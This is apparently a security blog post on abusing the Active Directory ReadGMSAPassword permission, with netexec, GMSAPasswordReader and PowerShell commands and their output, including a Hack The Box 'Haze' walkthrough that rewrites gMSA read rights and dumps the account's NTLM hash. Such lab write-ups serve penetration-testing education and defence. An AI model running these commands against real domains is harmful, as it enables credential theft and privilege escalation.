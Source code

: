 ```yaml
---
title: ⚔️DACL - ReadGMSAPassword
date: 2025-10-28 01:09:00 +/-TTTT
categories: [DACL]
tags: [ReadGMSAPassword]     # TAG names should always be lowercase
image : /assets/images/readgmsapasswordbackground.png
---
```

> Author : lineeralgebra
{:.prompt-tip}

# **ReadGMSAPassword**

### **What is a GMSA?**

**GMSA** stands for **Group Managed Service Account**.

- It’s a type of **Active Directory account** designed for **services, scheduled tasks, or apps**.
- The key idea: **Windows automatically manages the password** — you don’t have to set or rotate it manually.
- The account can be used on **one or more allowed computers** in the domain.

**Benefits of GMSA:**

1. No manual password management.
2. Automatic password rotation by the domain controller.
3. Can be used across multiple machines safely.
4. Works only on allowed computers (controlled by `PrincipalsAllowedToRetrieveManagedPassword`).

## **ReadGMSAPassword Verify**

### **ReadGMSAPassword Verify with PowerView**

```bash
powershell-import /home/elliot/tools/PowerView.ps1

powerpick Get-ADServiceAccount -Filter * | Where-Object { $_.ObjectClass -eq "msDS-GroupManagedServiceAccount" } | Select Name, DistinguishedName
```

![alt text](../assets/images/dacl121.png)

### **ReadGMSAPassword Verify with find-aces**

https://github.com/L1nvx/find-aces

Really great tooolll!!! love it.

**Requirements**

```bash
python3 -m venv .venv                                                                        
source .venv/bin/activate
pip install --upgrade git+https://github.com/skelsec/msldap.git
pip install impacket
pip install colorama
```

and usage is easy too!!

```bash
python3 main.py --auth "ldap+ntlm-password://LAB\\irem:princess@dc.lab.local"

python3 main.py --auth "ldap+ntlm-nt://LAB\\irem:LMHASH:NTHASH@dc.lab.local"

python3 main.py --auth "ldap+kerberos://LAB\\irem@dc.lab.local"
```

for our lab

```bash
(.venv) ➜  find-aces git:(main) ✗ python3 main.py --auth "ldap+ntlm-password://lab.local\\osman:iloveyou@VALENOR-DC01.lab.local"
Type 'help' to see available commands.
$ 

```

and just give 

```bash
find_object_aces <username> - Search for ACEs for a specific user                                                                                            
```

![alt text](../assets/images/dacl122.png)

### **ReadGMSAPassword Verify w Bloodhound**

And off course easiest and common way is bloodhound

![alt text](../assets/images/dacl123.png)

## **ReadGMSAPassword Attack**

### **ReadGMSAPassword Attack with netexec**

We can use easily `--gmsa` module from **LDAP**

```bash
nxc ldap VALENOR-DC01.lab.local -u osman -p iloveyou --gmsa
LDAP        192.168.1.10    389    VALENOR-DC01     [*] Windows 10 / Server 2019 Build 17763 (name:VALENOR-DC01) (domain:lab.local)
LDAPS       192.168.1.10    636    VALENOR-DC01     [+] lab.local\osman:iloveyou 
LDAPS       192.168.1.10    636    VALENOR-DC01     [*] Getting GMSA Passwords
LDAPS       192.168.1.10    636    VALENOR-DC01     Account: GMSA1$               NTLM: 0f38e5403ccf33edaecde96b0d95952f     PrincipalsAllowedToReadPassword: GMSA-Users
LDAPS       192.168.1.10    636    VALENOR-DC01     Account: test-websvc$         NTLM: <no read permissions>                PrincipalsAllowedToReadPassword: gMSA-WebServers
```

### **ReadGMSAPassword Attack with GMSAPasswordReader.exe**

https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.7_Any/GMSAPasswordReader.exe

we can use this great tool with `execute-assembly` 

```bash
execute-assembly /home/elliot/tools/SharpCollection/NetFramework_4.7_Any/GMSAPasswordReader.exe --AccountName "GMSA1$" 
```

![alt text](../assets/images/dacl124.png)

## GMSA (BONUS)

![alt text](../assets/images/haze5.png)

### GMSA_MANAGERS write permission

we  are member of `GMSA_MANAGERS` and this is really usefull we can check ACL's with
https://github.com/L1nvx/find-aces

```
python3 main.py --auth "ldap+ntlm-password://haze.htb\\\\mark.adams:Ld@p_Auth_Sp1unk@2k24@DC01.haze.htb"
$ find_object_aces gMSA_Managers
05:46:34 - INFO - Found group: gMSA_Managers

================================================================================
ACE #1
Object DN: CN=Haze-IT-Backup,CN=Managed Service Accounts,DC=haze,DC=htb
Object SID: S-1-5-21-323145914-28650650-2368316563-1111
--------------------------------------------------------------------------------
  ACE Type: 5
  SID: S-1-5-21-323145914-28650650-2368316563-1107
  Permissions: ADS_RIGHT_DS_WRITE_PROP
  Object Type: 888eedd6-ce04-df40-b462-b8a50e41ba38
  Inherited Type: -

================================================================================
ACE #2
Object DN: CN=Haze-IT-Backup,CN=Managed Service Accounts,DC=haze,DC=htb
Object SID: S-1-5-21-323145914-28650650-2368316563-1111
--------------------------------------------------------------------------------
  ACE Type: 0
  SID: S-1-5-21-323145914-28650650-2368316563-1107
  Permissions: READ_CONTROL, ADS_RIGHT_DS_READ_PROP
  Object Type: -
  Inherited Type: -

================================================================================
ACE #3
Object DN: CN=Support_Services,CN=Users,DC=haze,DC=htb
Object SID: S-1-5-21-323145914-28650650-2368316563-1112
--------------------------------------------------------------------------------
  ACE Type: 0
  SID: S-1-5-21-323145914-28650650-2368316563-1111
  Permissions: WRITE_OWNER
  Object Type: -
  Inherited Type: -

================================================================================
ACL expansion complete. Total ACEs found: 3
================================================================================

================================================================================
PERMISSION RELATIONS WITH RESOLVED OBJECT TYPES
================================================================================
CN=gMSA_Managers,CN=Users,DC=haze,DC=htb
└── [READ_CONTROL, ADS_RIGHT_DS_READ_PROP, ADS_RIGHT_DS_WRITE_PROP] → (ms-DS-GroupMSAMembership)
    └── CN=Haze-IT-Backup,CN=Managed Service Accounts,DC=haze,DC=htb
        └── [WRITE_OWNER] → (No Object Type)
            └── CN=Support_Services,CN=Users,DC=haze,DC=htb

```

![alt text](../assets/images/haze6.png)

We have Write Permission on it then we can add in `ReadGmsaPassword` permission and we can use this with mark.adams. and boommm

```
*Evil-WinRM* PS C:\\Backups> Set-ADServiceAccount -Identity "Haze-IT-Backup$" -PrincipalsAllowedToRetrieveManagedPassword "gMSA_Managers"
*Evil-WinRM* PS C:\\Backups> Get-ADServiceAccount -Identity "Haze-IT-Backup$" -Properties PrincipalsAllowedToRetrieveManagedPassword

DistinguishedName                          : CN=Haze-IT-Backup,CN=Managed Service Accounts,DC=haze,DC=htb
Enabled                                    : True
Name                                       : Haze-IT-Backup
ObjectClass                                : msDS-GroupManagedServiceAccount
ObjectGUID                                 : 66f8d593-2f0b-4a56-95b4-01b326c7a780
PrincipalsAllowedToRetrieveManagedPassword : {CN=gMSA_Managers,CN=Users,DC=haze,DC=htb}
SamAccountName                             : Haze-IT-Backup$
SID                                        : S-1-5-21-323145914-28650650-2368316563-1111
UserPrincipalName                          :

```

and now we can

```
nxc ldap DC01.haze.htb -u mark.adams -p 'Ld@p_Auth_Sp1unk@2k24' -k --gmsa
LDAP        DC01.haze.htb   389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:haze.htb)
LDAPS       DC01.haze.htb   636    DC01             [+] haze.htb\\mark.adams:Ld@p_Auth_Sp1unk@2k24
LDAPS       DC01.haze.htb   636    DC01             [*] Getting GMSA Passwords
LDAPS       DC01.haze.htb   636    DC01             Account: Haze-IT-Backup$      NTLM: 1b49f312a7619ca460290ecefd4dfcb7     PrincipalsAllowedToReadPassword: gMSA_Managers

```
